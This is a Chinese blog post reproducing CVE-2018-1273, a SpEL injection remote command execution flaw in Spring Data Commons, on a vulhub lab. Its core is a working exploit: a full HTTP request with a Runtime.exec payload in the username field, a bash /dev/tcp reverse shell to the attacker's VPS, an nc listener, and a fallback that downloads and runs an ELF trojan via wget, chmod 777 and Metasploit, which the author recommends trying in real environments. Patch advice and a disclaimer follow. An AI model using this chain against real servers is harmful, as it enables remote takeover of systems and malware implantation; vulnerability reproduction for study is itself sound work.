

# 漏洞复现-CVE-2018-1273-Spring Data Commons 远程命令执行 - 铺哩 - 博客园

> 原文：[`www.cnblogs.com/cute-puli/p/15338017.html`](https://www.cnblogs.com/cute-puli/p/15338017.html)

# 0x00 实验环境

攻击机：Win 10

靶场：docker 拉的 vulhub 靶场

# 0x01 影响版本

Spring Data Commons 1.13 - 1.13.10 (Ingalls SR10)

Spring Data REST 2.6 - 2.6.10 (Ingalls SR10)
Spring Data Commons 2.0 to 2.0.5 (Kay SR5)
Spring Data REST 3.0 - 3.0.5 (Kay SR5)

# 0x02 漏洞复现

（1）访问页面时，是一个**spring**常见的错误页面，看到这个页面离有戏不远了：


 （2）通过扫目录的方式发现敏感页面**/users**：




 （3）在输入一些数据后点击注册，并使用**burp**抓包，修改数据包为如下**payload**并发送：


```
POST /users?page=&size=5 HTTP/1.1
Host: x.x.x.x:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:92.0) Gecko/20100101 Firefox/92.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 130
Origin: http://x.x.x.x:8080
Connection: close
Referer: http://x.x.x.x:8080/users
Cookie: settingStore=1630480512401_0
Upgrade-Insecure-Requests: 1

username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("命令")]=&password=&repeatedPassword=
```

（4）与 CVE-2017-8046-Spring Data Rest 远程命令执行的复现方式有点类似，都是在某个接口存在远程代码执行，这里只需要将红色字体修改为反弹 shell 的命令即可获取到服务器的 shell：

首先对需要执行的命令执行编码：

```
bash -i >& /dev/tcp/vps 的 ip/7777 0>&1
```

在网址：

```
http://www.jackson-t.ca/runtime-exec-payloads.html 
```


 （5）然后在自己的**vps**开启监听：

```
 nc -lvp 7777
```


 因为某种原因，这里我的 shell 弹不过来，遇到真实环境的时候是可以试试这个办法的，另外我再说个**思路**。

 （6）完整拿 shell 思路，真实环境，遇到无法弹 shell 的可以先从自己服务器下载一个**exe**或者**elf**的木马：

```
wget http://x.x.x.x:7890/test.elf
```


这个亲测是可以下载成功的，然后给**shell**赋予一个**777**的执行权限：

```
chmod 777 ./test.elf
```


然后我们在 msf 开启监听即可获取到 shell，所以说，没法直接反弹的话就可以自己找方法拿到 shell：


 这样是不是很聪明呢！^-^

# 0x03 漏洞原理

Spring Data 是一个用于简化数据库访问，并支持云服务的开源框架，Spring Data Commons 是 Spring Data 下所有子项目共享的基础框架。Spring Data Commons 在 2.0.5 及以前版本中，存在一处 SpEL 表达式注入漏洞，攻击者可以注入恶意 SpEL 表达式以执行任意命令。

参考这篇文章：https://www.cnblogs.com/hac425/p/9656747.html

# 0x04 修复建议

即为升级：

 2.0.x users should upgrade to 2.0.6

1.13.x users should upgrade to 1.13.11

Older versions should upgrade to a supported branch

# 0x05 参考文献

https://github.com/vulhub/vulhub/tree/master/spring/CVE-2018-1273

https://xz.aliyun.com/t/2269

# 0x06 免责声明

本漏洞复现文章仅用于学习、工作与兴趣爱好，并立志为网络安全奉献一份力量，凡是利用本博客相关内容的无良**hackers**造成的安全事故均与本人无关！